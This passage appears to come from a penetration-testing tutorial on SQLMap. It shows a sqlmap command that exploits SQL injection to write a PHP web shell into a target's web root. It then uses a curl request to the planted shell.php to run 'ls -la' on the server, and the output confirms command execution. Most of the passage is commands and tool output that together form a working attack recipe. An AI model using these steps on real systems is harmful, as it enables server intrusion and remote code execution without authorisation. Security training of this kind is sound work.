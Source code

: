 ```shell
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/

```

We see that SQLMap confirmed that the file was indeed written:

```shell
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

```

Now, we can attempt to access the remote PHP shell, and execute a sample command:

```shell
curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...

```

We see that our PHP shell was indeed written on the remote server, and that we do have command execution over the host server.

* * *

## OS Command Execution
